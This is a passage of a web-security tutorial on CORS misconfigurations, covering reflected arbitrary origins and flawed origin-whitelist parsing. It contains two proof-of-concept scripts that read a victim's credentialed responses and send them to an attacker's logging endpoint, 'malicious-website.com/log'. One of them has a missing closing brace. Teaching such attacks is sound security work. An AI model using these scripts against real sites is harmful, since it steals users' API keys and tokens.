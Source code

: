 Because the application reflects arbitrary origins in the Access-Control-Allow-Origin header, this means that absolutely any domain can access resources from the vulnerable domain. If the response contains any sensitive information such as an *API key or CSRF token*, you could retrieve this by placing the following script on your website/exploit server:
```http
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//malicious-website.com/log?key='+this.responseText;
```
OR
```html
<html>
    <body>
        <h1>Hello World!</h1>
        <script>
            var xhr = new XMLHttpRequest();
            var url = "vulnerable-website.net"
            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE){
                    fetch("/log?key=" + xhr.responseText)
                }
            }

            xhr.open('GET', url + "/[directory with CORS]", true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>
    </body>
</html>
```


## Errors parsing Origin headers
Some applications that support access from multiple origins do so by using a whitelist of allowed origins. When a CORS request is received, the supplied origin is compared to the whitelist. If the origin appears on the whitelist then it is reflected in the Access-Control-Allow-Origin header so that access is granted. For example, the application receives a normal request like:

```http
GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.com
```
The application checks the supplied origin against its list of allowed origins and, if it is on the list, reflects the origin as follows:

```http
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com
```
Mistakes often arise when implementing CORS origin whitelists. Some organizations decide to allow access from all their subdomains (including future subdomains not yet in existence). And some applications allow access from various other organizations' domains including their subdomains. These rules are often implemented by matching URL prefixes or suffixes, or using regular expressions. Any mistakes in the implementation can lead to access being granted to unintended external domains.
